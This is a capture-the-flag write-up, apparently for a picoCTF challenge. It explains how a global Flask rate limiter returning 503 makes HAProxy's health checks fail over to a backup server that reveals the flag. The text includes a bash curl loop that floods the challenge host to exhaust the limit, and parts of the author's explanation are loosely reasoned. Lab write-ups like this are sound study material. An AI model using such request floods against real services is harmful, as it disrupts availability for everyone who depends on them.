




1. 
2. This is the code `app.py`
```python
from flask import Flask, render_template
from dotenv import load_dotenv
from flask_limiter import Limiter
import os

load_dotenv()

app = Flask(__name__)

# Custom key function for global rate limiting
def global_rate_limit_key():
    return "global"

# Initialize rate limiter with global key function
limiter = Limiter(
    key_func=global_rate_limit_key,
    app=app,
    default_limits=["300 per minute"]
)

# Custom error handler for rate limit exceeded
@app.errorhandler(429)
def ratelimit_exceeded(e):
    return "Service Unavailable: Rate limit exceeded", 503

@app.route('/')
@limiter.limit("300 per minute")
def home():
    print("value:", os.getenv("IS_BACKUP"))
    if os.getenv("IS_BACKUP") == "yes":
        flag = os.getenv("FLAG")
    else:
        flag = "No flag in this service"
    return render_template("index.html", flag=flag)

```

- the general idea that I get from this is that i have to send a get request to the website at exactly `300 req/min` to invoke the `home()` function 
- Key Points
```points
1) The Key in the limiter is global , ie every req comes from the same pool (no distinction bw user A , B or C every req is categorized under global )
2) Default limit is 300 per minute if the limit exceeds then we raise a 503
3) We can get the Flag only when the server is the one that has the keyword BACKUP
```
3. Code in the `haproxy.cfg`
```config
# haproxy.cfg
global
    log stdout format raw local0
    maxconn 1000

defaults
    log global
    mode http
    timeout connect 5s
    timeout client 10s
    timeout server 10s
    
frontend http-in
    bind *:80
    default_backend servers

backend servers
    option httpchk GET /
    http-check expect status 200
    server s1 *:8000 check inter 2s fall 2 rise 3
    server s2 *:9000 check backup inter 2s fall 2 rise 3

```

```
Strucute
                   HAProxy :80
                       |
                 backend "servers"
                  /            \
             s1 :8000        s2 :9000
              primary          backup
```

Now if we see there is a health check which looks for `200` when we use a get request  , and the line check inter 2s fall 2 rise 3 means we check for the health of the server every 2 sec if its not 200 for more than 2 times then make the server down , so we can then use the backup server , also if its health check comes to be 200 for more than 3 times than make the server UP .

using these info we used this code to make 300 req per min and invoke the condition 
```bash
while true; do
    for i in {1..300}; do
        curl -s http://mysterious-sea.picoctf.net:60536/ &
        sleep 0.2
    done
    wait
done
```








My initial intuition was to just to hit the server with 300 req per minute. Luckily it worked .